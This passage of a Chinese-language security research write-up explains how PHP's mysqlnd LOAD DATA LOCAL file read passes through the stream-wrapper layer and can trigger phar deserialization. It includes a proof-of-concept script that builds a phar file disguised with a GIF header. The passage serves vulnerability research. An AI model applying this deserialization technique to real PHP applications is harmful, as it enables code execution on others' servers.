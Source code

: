 在该议题中提到，在PHP中存在一个叫做[Stream API](https://secure.php.net/manual/zh/internals2.ze1.streams.php)，通过注册拓展可以注册相应的伪协议，而phar这个拓展就注册了`phar://`这个stream wrapper。

在我们知道创宇404实验室安全研究员seaii曾经的研究([https://paper.seebug.org/680/](https://paper.seebug.org/680/))中表示，所有的文件函数都支持stream wrapper。

![image.png-39.7kB][27]


深入到函数中，我们可以发现，可以支持steam wrapper的原因是调用了
```
stream = php_stream_open_wrapper_ex(filename, "rb" ....);
```

从这里，我们再回到mysql的load file local语句中，在mysqli中，mysql的读文件是通过php的函数实现的

```
https://github.com/php/php-src/blob/master/ext/mysqlnd/mysqlnd_loaddata.c#L43-L52

if (PG(open_basedir)) {
		if (php_check_open_basedir_ex(filename, 0) == -1) {
			strcpy(info->error_msg, "open_basedir restriction in effect. Unable to open file");
			info->error_no = CR_UNKNOWN_ERROR;
			DBG_RETURN(1);
		}
	}

	info->filename = filename;
	info->fd = php_stream_open_wrapper_ex((char *)filename, "r", 0, NULL, context);
```

也同样调用了`php_stream_open_wrapper_ex`函数，也就是说，我们同样可以通过读取phar文件来触发反序列化。

### 复现

首先需要一个生成一个phar

```
pphar.php

<?php
class A {
    public $s = '';
    public function __wakeup () {
        echo "pwned!!";
    }
}


@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF89a "."<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new A();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```


[1]: http://static.zybuluo.com/LoRexxar/3t0iv2wtgra8pjxb3hlgv4ao/image.png
[2]: http://static.zybuluo.com/LoRexxar/n0rx8iobd8fxtx5dunos7km3/image.png
[3]: http://static.zybuluo.com/LoRexxar/4x1yyuqbcnugcbqvzofcs3pp/OXDM5E5$ST51%5B$0B%60@BBG~S.png
[4]: http://static.zybuluo.com/LoRexxar/eqng4m7z35a0b7qclj1jmg21/image.png
[5]: http://static.zybuluo.com/LoRexxar/7yori2fkfjl9dlmgtussxdd4/image.png
[6]: http://static.zybuluo.com/LoRexxar/m6gjcjz5w63tnh79jjl2id7k/image.png
[7]: http://static.zybuluo.com/LoRexxar/bl2bviwpwbj3xbkd9ehp258g/image.png
[8]: http://static.zybuluo.com/LoRexxar/7sx4ebpx0xtchs4lj0qvo09k/image.png
[9]: http://static.zybuluo.com/LoRexxar/tobzz9kf0ikfp3h5jqi07m4i/image.png
[10]: http://static.zybuluo.com/LoRexxar/b4xa1b2s05wue6o04k7i1wfw/image.png
[11]: http://static.zybuluo.com/LoRexxar/ock8gpk4wjufrzu434o4sh2e/image.png
[12]: http://static.zybuluo.com/LoRexxar/qwoi5pnwgiw1lmdcx5e7836b/image.png
[13]: http://static.zybuluo.com/LoRexxar/ub5d1ylbd28m9o8zalt4cnto/image.png
[14]: http://static.zybuluo.com/LoRexxar/dfs1q3dm1i6r10mjywgpp819/image.png
[15]: http://static.zybuluo.com/LoRexxar/mrqd72185373870f6wrdas8a/image.png
[16]: http://static.zybuluo.com/LoRexxar/y0x18uc96fwpov4bqn0qhhqj/image.png
[17]: http://static.zybuluo.com/LoRexxar/lwmbbklsfgdti60e8qyjqtw7/image.png
[18]: http://static.zybuluo.com/LoRexxar/72iqa6e7i3928wckfuacxiny/image.png
[19]: http://static.zybuluo.com/LoRexxar/ijivo1toa7afcm4gug7tjzk5/image.png
[20]: http://static.zybuluo.com/LoRexxar/0adbu75qrcuv8caau262m34i/image.png
[21]: http://static.zybuluo.com/LoRexxar/6orndbdfrf1bqysouez1uauj/image.png
[22]: http://static.zybuluo.com/LoRexxar/ciy78f57vftzichc3xg82qgd/image.png
[23]: http://static.zybuluo.com/LoRexxar/ngn1u8fu15qz5d9830lrcbhn/image.png
[24]: http://static.zybuluo.com/LoRexxar/xd6jvuhaofstoduthnb15a1w/image.png
[25]: http://static.zybuluo.com/LoRexxar/vpa6tokfa26dng7eqr8bsubc/image.png
[26]: http://static.zybuluo.com/LoRexxar/4cief0ku1991kkpavlda1lm6/image.png
[27]: http://static.zybuluo.com/LoRexxar/1dl9y4ioznpis2z2xi5ixxdd/image.png
[28]: http://static.zybuluo.com/LoRexxar/j27yhc2er961j4gqttmhwutu/image.png
[29]: http://static.zybuluo.com/LoRexxar/4dr8vlhpn5lnn8ktq1jbn2ao/image.png
[30]: http://static.zybuluo.com/LoRexxar/twls59xuylfk78j4ikrk3eii/image.png
[31]: http://static.zybuluo.com/LoRexxar/hwg8ahoh48odump72h6tf3c1/image.png
[32]: http://static.zybuluo.com/LoRexxar/4ze2by2xa8jwgbnvpquoxxt6/image.png
[33]: http://static.zybuluo.com/LoRexxar/ccwgrjox5x7nxklrtnaxaemk/image.png
[34]: http://static.zybuluo.com/LoRexxar/g5mmomxuunolwnwd69vcf567/image.png
[35]: http://static.zybuluo.com/LoRexxar/i9m3hv9246ziexne1c2d7iik/image.png
[36]: http://static.zybuluo.com/LoRexxar/notx2emuvmf7y0nd7w84sj14/image.png
[37]: http://static.zybuluo.com/LoRexxar/qe1q1zcew7fxp32gtb4ub0jh/image.png
[38]: http://static.zybuluo.com/LoRexxar/otdllmlrbgd0tygavkolgnlb/image.png
[39]: http://static.zybuluo.com/LoRexxar/4yfa4fir4mp1np0jc25gffnw/image.png
[40]: http://static.zybuluo.com/LoRexxar/g7z10bjdd0dphkwuv4k17up7/image.png
[41]: http://static.zybuluo.com/LoRexxar/w9fokrfdntuwsgf9kx9ypcqa/image.png
[42]: http://static.zybuluo.com/LoRexxar/4rfb6q9bzgunh41snsx2jqhp/image.png
[43]: http://static.zybuluo.com/LoRexxar/1xt3jcs0jaiekw13t78nxymi/image.png
[44]: http://static.zybuluo.com/LoRexxar/7yfr1ef8rzjggwaju4xyn9ld/image.png
[45]: http://static.zybuluo.com/LoRexxar/8vwz2j222q7nh07r71m12cb4/image.png
[46]: http://static.zybuluo.com/LoRexxar/7jbzoxpoon4bq9cbldg2zv8f/image.png